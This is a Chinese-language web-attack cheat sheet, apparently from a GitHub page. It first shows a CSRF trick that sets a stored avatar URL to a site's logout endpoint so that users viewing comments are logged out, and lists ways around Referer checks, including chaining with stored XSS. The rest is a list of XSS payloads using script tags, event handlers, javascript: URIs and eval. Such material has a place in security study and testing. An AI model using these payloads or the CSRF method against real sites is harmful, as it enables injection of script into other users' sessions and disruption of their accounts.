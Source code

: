 ## CSRF

#### 退出

在保存头像的时候通过抓包，然后修改头像的储存地址，将其修改为**登录退出的 url**

> ```plain
> portrait=http://baidu.com     ====>  http://baidu.com/logout
> ```

```plain
当其他的人在评论区访问后，浏览器会加载该头像的地址，可以直接造成用户直接退出
```

###### 绕过：

如果检测了 referer 头，可以尝试一下方案

```plain
删除refere头
将http请求头的目录名字设置为网站检测的fefere头
配合存储xss绕过严谨
```

## XSS

### xss 解析标签

函数：alert (),confirm (),prompt ()

```plain
可以在url后面：?url=javascript:alert'1' 
<script>alert('X');</script>
//<img src="image.jpg" alt="Description of the image">
//<img src="valid-image.jpg" onerror="alert('Image failed to load')">(使用onfocus属性)
<img src="javascript:alert('XSS Attack');" />
<img src="invalid-image" onerror="alert('XSS Attack');" />
<img src="valid-image.jpg" onerror="alert('XSS Attack')" />
<img src="javascript:eval('alert(\'XSS Attack\')')" /> 使用eval函数执行代码
//<a href="https://www.example.com">Visit Example Website</a>
//<a onmouseover="console.log('Mouse over the link')">Hover me</a>(使用onmouseover属性)
<a href="javascript:alert('XSS Attack');">Click me </a>
<a style="color:red;" onmouseover="alert('XSS Attack')">Hover me</a>
//<iframe src="https://www.example.com" width="600" height="400"></iframe>
<iframe src="javascript:alert('XSS Attack');"></iframe>
//<svg width="100" height="100">
    <circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" fill="red" />
</svg>
<svg onload="alert('XSS Attack')"></svg>
<body onload="alert('XSS Attack')"></body>
<body background="javascript:alert('XSS Attack')">
<body style="background-image: url(javascript:alert('XSS Attack'))">
<input type="text" onfocus="alert('XSS Attack');" />
//<div onmouseover="console.log('Mouse over the div')">Hover me</div>
<div onmouseover="alert('XSS Attack')">Hover me</div>
<table background="javascript:alert('XSS Attack')"></table>
<form action="javascript:alert('XSS Attack')">
    <!-- form fields go here -->
</form>
<input type="image" src="javascript:alert('XSS Attack')" />
<base href="javascript:alert('XSS Attack')">
```
